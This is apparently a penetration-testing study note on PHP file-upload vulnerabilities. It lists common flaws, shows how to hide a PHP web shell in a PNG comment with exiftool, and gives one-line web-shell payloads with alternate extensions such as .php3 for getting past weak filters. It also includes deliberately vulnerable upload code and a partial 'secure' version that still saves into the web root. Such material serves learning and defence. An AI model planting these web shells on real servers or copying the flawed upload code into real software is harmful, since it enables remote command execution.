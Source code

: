 #### 1.1. Common issues

Common issues in lax file-upload logic:

- overwrite file name and content
- arbitrary file extension is allowed
- mixed content may be executed based on file extension (`.php` file but `JPEG` mime-type)
- malicious files `.exe` can be distributed from trusted context
- image parser vulnerabilities (e.g. ImageTragick)
- was the image processed server-side?
  - compare the checksum of the original file with the checksum of the uploaded file
  - image sanitization can also be done by image resize (parser will rebuild the image for you)
- validation vs. sanitization = checking user input vs. altering user input to fit a specific purpose

#### 1.2. To inject malicious `php` in a `.png` file

Read info about the image:
```
# strings 1.png  #get all strings from image file
# exiftool 1.png #get meta information in files
```

Place the PHP code in a meta-data comment:
```
# echo '<?php system($_GET["cmd"]);?>' > 1.php
# exiftool 1.png '-comment<=1.php'
```

Check if the file was modified server-side:
```
# curl -sSL http://vuln.loc/admin/uploads/1438865053.png | strings | grep system
<?php system($_GET["cmd"]);
```

Exercise: `pentesterlab.com/exercises/from_sqli_to_shell_II`

#### 1.3. Secure implementation?

- file extension check

```php
$file = basename($_FILES['image']['name']);
$ext = pathinfo($file, PATHINFO_EXTENSION);
$valids = array("png","gif", "jpg");
if (!in_array($ext, $valids )){
   DIE("This application allows gif, png or jpg files");
}
```

- file content-type check

```php
$base =  $_FILES['image']['tmp_name'];
list($swidth,$sheight, $smime, $attr) = getimagesize($base);
switch ($smime) {
  case IMAGETYPE_GIF:
    $src = imagecreatefromgif($base);
    break;
  case IMAGETYPE_JPEG:
    $src = imagecreatefromjpeg($base);
    break;
  case IMAGETYPE_PNG:
    $src = imagecreatefrompng($base);
    break;
  default:
    DIE("INVALID CONTENT TYPE:".$smime);
}
if ($src === false) {
  DIE("INVALID IMAGE");
}
```

- web-root upload location

```php
if(!move_uploaded_file($base, "/var/www/admin/uploads/".$file)) {
  die("Error during upload");
}
```

#### 1.4. PHP examples

##### Example 1:

Code (zero input validation):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php echo system($_GET["c"]);' > f.php
```

##### Example 2:

Code (still vulnerable if extension is not `.php`; e.g: `.phtml, .php3, .php4, .php5, .php7, .phps, .php-s, .pht, .phar`):
```php
if(isset($_FILES['image'])) {
  $dir = '/var/www/upload/images/';
  $file = basename($_FILES['image']['name']);
  if (preg_match('/\.php$/',$file)) { DIE("NO PHP"); }
  if(move_uploaded_file($_FILES['image']['tmp_name'], $dir. $file)) { echo "Upload done";}
}
```

Payload:
```
$ echo '<?php system($_GET["c"]);' > f.php3
```
